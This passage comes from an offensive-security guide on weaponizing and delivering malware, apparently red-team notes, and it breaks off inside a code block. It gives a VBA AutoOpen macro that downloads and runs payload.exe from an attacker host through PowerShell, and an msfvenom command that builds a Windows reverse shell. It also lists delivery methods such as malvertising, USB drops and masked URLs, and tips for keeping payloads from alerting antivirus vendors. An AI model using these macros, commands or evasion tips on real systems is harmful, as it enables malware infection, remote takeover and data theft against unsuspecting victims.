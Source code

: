- **Email Attachments**:
    - Use Office macros, weaponized PDFs, or embedded links.
    - Example VBA Macro:
        
        ```
        Sub AutoOpen()
          Shell ("cmd.exe /c powershell.exe -Command Invoke-WebRequest -Uri http://attacker_ip -OutFile C:\\payload.exe; Start-Process C:\\payload.exe")
        End Sub
        
        ```
        
- **URLs**:
    - Mask malicious URLs with URL shorteners or HTML templates.

### **b. Drive-by Downloads**

- Host malicious scripts on compromised websites.
- Example: Exploit kits triggering downloads.

### **c. USB Drops**

- Weaponize USB drives with autorun scripts or HID attacks.

### **d. Malvertising**

- Inject malicious payloads into online ads.

---

### **6. Post-Weaponization Testing**

### **a. Sandbox Testing**

- Test payloads in isolated environments (e.g., VirtualBox, VMware).

### **b. AV and EDR Bypass Testing**

- Use **VirusTotal** sparingly (it can alert vendors!).
- Use tools like **CAPE Sandbox** or **Any.Run** for private testing.

### **c. Simulate Real Environments**

- Test payload behavior in environments mirroring the target’s.

---

### **7. Example Weaponization Workflow**

1. **Payload Creation**:
    - Use **msfvenom** to create a Windows reverse shell.
        
        ```bash
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > reverse_shell.exe
        
